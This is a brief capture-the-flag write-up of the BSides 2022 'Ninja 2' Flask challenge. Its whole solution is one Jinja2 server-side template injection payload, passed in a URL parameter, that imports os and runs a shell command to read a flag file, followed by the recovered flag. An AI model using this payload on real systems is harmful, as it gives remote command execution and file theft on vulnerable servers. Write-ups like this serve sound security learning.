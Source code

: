 ```yaml
---
title: bsides2022 – Ninja 2
tags: web python flask injection
---
```


## Challenge

> Part 2 of 3: what do you know?

This challenge was on the same website as [Ninja 1]({% link ctf/_posts/2022-10-17-bsides2022_Ninja_1.md %}).

## Solution

{%raw%}`[URL]/?adj1={{request.application.__globals__.__builtins__.__import__('os').popen('cat /home/appuser/flag.txt').read()}}`
{%endraw%} returned the flag: `flag{datt3bay0!}`

